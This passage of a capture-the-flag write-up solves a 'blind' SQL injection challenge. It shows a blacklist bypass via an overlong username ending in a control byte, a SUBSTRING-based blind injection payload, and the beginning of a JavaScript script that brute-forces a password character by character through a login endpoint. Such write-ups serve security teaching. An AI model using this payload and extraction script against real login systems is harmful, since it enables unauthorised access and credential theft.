 ```bash
$ aws lambda invoke --function-name craft_query --cli-binary-format raw-in-base64-out --payload '{ "username": "b", "p
assword": "test!" }' out.txt; cat out.txt
{
    "StatusCode": 200,
    "ExecutedVersion": "$LATEST"
}
"Blacklisted!"
$ aws lambda invoke --function-name craft_query --cli-binary-format raw-in-base64-out --payload '{ "username": "bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb\u0002", "password": "test!" }' out.txt; cat out.txt
{
    "StatusCode": 200,
    "ExecutedVersion": "$LATEST"
}
"SELECT * from Users WHERE username=\"bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb\u0002\" AND password=\"test!\""
```

We have indeed bypassed the blacklist!

---

## Part IV

We are now left with a blind SQL injection (true to the title indeed). To do this, our sample payload (in this case for checking if char `1` is `T`) would be

```sql
SELECT * from Users
WHERE username="admin" AND SUBSTRING(password,1,1)=BINARY "T"
OR    username="aaaaaaaaa\u0002" AND password="b"
```

In which case we have

```js
let username = `admin" AND SUBSTRING(password,1,1)=BINARY "T" OR username="aaaaaaaaa\u0002`;
let password = "b";
```

If an entry is found in the database, we are essentially "logged in", where a welcome message will be displayed, othewise the server returns an invalid username/password error.

Now we simply have to try all the possible characters for each index. Here is the full script:

```js
async function check(idx, chr) {
  payload = `admin" AND SUBSTRING(password,${idx},1)=BINARY "${chr}" OR username="`;
  res = await fetch("http://chals.tisc23.ctf.sg:28471/api/login", {
      method: "POST",
      body: new URLSearchParams({
          "username": payload + "a".repeat(68-payload.length) + "\x02",
          "password": "b"
      }),
      headers: { "Content-Type": "application/x-www-form-urlencoded" }
  });
  out = await res.text();
  return out.includes("Welcome");
}

async function run() {
  let idx = 1;
  let flag = "";
  let found;
  while (true) {
      found = false;
```